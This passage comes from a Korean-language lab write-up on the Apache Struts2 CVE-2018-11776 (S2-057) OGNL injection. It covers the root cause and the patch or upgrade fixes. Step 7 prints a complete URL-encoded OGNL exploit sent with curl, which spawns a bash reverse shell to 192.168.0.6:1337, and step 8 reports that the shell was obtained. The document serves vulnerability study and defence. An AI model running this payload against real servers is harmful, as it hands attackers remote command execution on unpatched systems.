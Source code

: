 7. curl을 통해 서버포트 강제오픈 (리버스쉘) 

   ```
   curl -v 'localhost:32771/%24%7B%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29.%28%23cmd%3D%27bash%20-i%20%3e%26%20/dev/tcp/192.168.0.6/1337%200%3e%261%27%29.%28%23iswin%3D%28%40java.lang.System%40getProperty%28%27os.name%27%29.toLowerCase%28%29.contains%28%27win%27%29%29%29.%28%23cmds%3D%28%23iswin%3F%7B%27cmd.exe%27%2C%27c%27%2C%23cmd%7D%3A%7B%27bash%27%2C%27-c%27%2C%23cmd%7D%29%29.%28%23p%3Dnew%20java.lang.ProcessBuilder%28%23cmds%29%29.%28%23p.redirectErrorStream%28true%29%29.%28%23process%3D%23p.start%28%29%29.%28%23ros%3D%28%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getOutputStream%28%29%29%29.%28%40org.apache.commons.io.IOUtils%40copy%28%23process.getInputStream%28%29%2C%23ros%29%29.%28%23ros.flush%28%29%29%7D/help.action'
   ```


8. 리버스 쉘 획득 성공

   <img width="626" alt="스크린샷 2021-10-31 오전 12 37 33" src="https://user-images.githubusercontent.com/89399749/139540879-d9c88e7f-e924-4beb-85cb-05e79c2ab4f3.png">
#

## 3. 원인 분석

1. alwaysSelectFullNamespace 플래그 설정이 Struts 구성에서 true 로 설정됨. (널리 사용되는 Struts Convention 플러그인을 사용하는 경우 기본 설정임)
2. Struts 설정 파일은 선택적 namespace 속성을 지정하지 않거나 와일드카드 namespace(e.g. "/*")를 지정하는 <action ...> 태그가 포함되어 있음.



## 4. 대응 방안

1. Struts 2.3.35 버전 혹은 2.5.17 버전으로 업그레이드

   ![Patch 내용](https://user-images.githubusercontent.com/89399749/139540935-ef846d83-1058-40bd-8749-1fa5510e4475.png)


패치된 코드를 보면 cleanupNamespaceName 메소드에 화이트리스트 기능을 추가하여 악의적인 코드를 OGNL 형식으로 주입되는걸 방치시킴.



2. 지정된 네임스페이스 속성 추가: https://github.com/SpiderLabs/owasp-modsecurity-crs/pull/1177









## 참조

1. https://koromoon.blogspot.com/2018/09/cve-2018-11776-apache-struts2-s2-057.html
2. https://github.com/hook-s3c/CVE-2018-11776-Python-PoC
3. https://www.secjuice.com/apache-struts2-cve-2018-11776/

